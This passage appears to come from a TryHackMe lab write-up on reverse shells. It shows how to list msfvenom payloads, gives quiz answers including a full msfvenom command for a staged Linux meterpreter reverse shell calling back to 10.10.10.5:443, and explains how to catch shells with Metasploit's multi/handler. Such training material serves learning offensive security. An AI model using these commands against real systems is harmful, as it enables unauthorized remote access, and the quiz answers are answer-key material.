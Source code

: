 This can be used to list all available payloads, which can then be piped into ```grep``` to search for a specific set of payloads. For example:
![](https://i.imgur.com/iFO6ydX.png)

This gives us a full set of Linux meterpreter payloads for 32bit targets.
```
Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.
> No answer needed
```

```
Which symbol is used to show that a shell is stageless?
> _
```

```
What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
> msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443
```

## Task 10 - Metasploit multi/handler 

Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:
1. Open Metasploit with ```msfconsole```
2. Type ```use multi/handler```, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the ```options``` command:
![](https://i.imgur.com/rAdZsKH.png)

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST must be specified here, as metasploit will not listen on all network interfaces like netcat or socat will; it must be told a specific address to listen with (when using TryHackMe, this will be your tun0 address ). We set these options with the following commands:
* ```set PAYLOAD <payload>```
* ```set LHOST <listen-address>```
* ```set LPORT <listen-port>```
* 
We should now be ready to start the listener!

Let's do this by using the ```exploit -j``` command. This tells Metasploit to launch the module, running as a j ob in the background.

![](https://i.imgur.com/qIr6o2B.png)

You may notice that in the above screenshot, Metasploit is listening on a port under 1024. To do this, Metasploit must be run with sudo permissions.

